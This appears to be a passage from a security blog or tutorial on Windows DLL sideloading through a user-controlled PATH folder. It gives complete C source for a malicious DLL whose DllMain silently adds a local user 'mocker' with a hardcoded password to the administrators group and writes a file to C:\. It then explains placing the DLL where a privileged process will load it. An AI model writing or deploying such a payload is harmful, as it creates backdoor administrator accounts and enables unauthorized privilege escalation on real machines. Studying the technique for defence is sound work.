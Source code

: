 Let's fire up Visual Studio and write some code to load our own custom dll. I went a bit overboard and made sure, if at all possible, to prevent the DLL from getting load locked.
You'll see I add a new user, mocker, and join them to the administrators group.  I also write a text file to the c:\ directory for added confirmation of our new privileges.

```c
#include "pch.h"
#include <windows.h>

#pragma comment (lib, "user32.lib")

DWORD WINAPI MyThread(LPVOID lpParam)
{
    WinExec("cmd.exe /c net user mocker M0ck3d2024 /add && net localgroup administrators mocker /add", 0);
    WinExec("cmd.exe /c echo hey > c:\\heythere.txt", 0);
    return 0;
}


DWORD WINAPI WorkItem(LPVOID lpParam)
{
    MyThread(NULL);
    return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        DisableThreadLibraryCalls(hinstDLL);  // Avoid unnecessary notifications

        // Use QueueUserWorkItem to safely execute code after the DLL has been loaded
        QueueUserWorkItem(WorkItem, NULL, WT_EXECUTEDEFAULT);

        // Optionally execute additional code here, e.g., WinExec command
        // WinExec("cmd.exe /c net user mocker M0ck3d2024 /add && net localgroup administrators mocker /add", 0);

        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Now, let's compile it and add it into our **USER** environment **PATH** folder of our choosing. I made my own to prove you do **NOT** need a premade PATH folder to use this.  Sometimes DLL sideloading attacks, especially **SYSTEM** processes with DLL sideloading opportunities, require a **PATH** location that's already been created.  If there aren't any **PATH** locations created, you're out of luck.  Not in this case.  This attack vector uses the **USER** path location, which we have full control over as a standard user.
